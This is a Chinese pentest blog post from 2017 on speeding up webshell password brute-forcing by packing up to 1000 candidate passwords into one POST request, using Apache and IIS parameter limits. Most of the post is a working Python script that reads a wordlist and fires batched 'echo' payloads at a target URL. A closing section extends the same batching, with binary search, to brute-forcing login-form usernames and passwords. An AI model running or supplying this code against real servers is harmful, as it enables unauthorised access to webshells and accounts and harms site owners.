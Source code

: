 ```yaml
---
draft: false
date: 2017-02-17 10:32:24
title: 利用多参数提高 webshell 爆破速度
description: 
categories:
  - Pentest
tags:
  - 爆破
---
```


### 0x00 原理
之前在[https://www.t00ls.net/viewthread.php?tid=36985](https://www.t00ls.net/viewthread.php?tid=36985)看到这个思路的。

Apache下默认同时允许接收1000个参数；IIS下默认同时允许接收5883个参数，可以一次提交多个密码，从而快速爆破。

### 0x01 爆破webshell代码
```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# code by reber <1070018473@qq.com>

import sys
import requests

proxy = {'http':'http://127.0.0.1:8080'}
headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:46.0) Gecko/20100101 Firefox/46.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Accept-Language': 'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'application/x-www-form-urlencoded',
}

def get_file(filename):
    data = []
    with open(filename,'r') as f:
        lines = f.readlines()
        for line in lines:
            data.append(line.strip())
    return data

def get_payloads(data):
    payloads = []
    for x in xrange(0,10):
        print x*1000,(x+1)*1000
        payload = []
        for y in data[x*1000:(x+1)*1000]:
            payload.append("%s=echo '%s';" % (y,y))
        payloads.append('&'.join(payload))
    return payloads

def run(url, payloads):
    for payload in payloads:
        resp = requests.post(url=url,data=payload,headers=headers)
        print resp.content

if __name__ == '__main__':
    url = sys.argv[1]
    filename = sys.argv[2]

    data = get_file(filename)
    payloads = get_payloads(data)
    run(url, payloads)
```
![](/img/post/blasting_webshell.png)

### 0x02 猜想
平时爆破表单时都是一次提交一个payload，比如说```username='xxx'&password='xxx'```，10w个组合需要提交10w次，若一次提交500个组合则只需要提交200次

我们可以直接一次提交500个payload，如：name='111'&pass='111'&name='112'&pass='112'&name='113'&pass='113'& 。。。。。。(500个payload)

如果正确的密码在你测试的某1000个参数中，那么返回页面的是不同的，则可以断定正确的用户名和密码在这1000个参数里，然后对这1000个参数用二分法再次进行测试，直到得到正确的用户名和密码
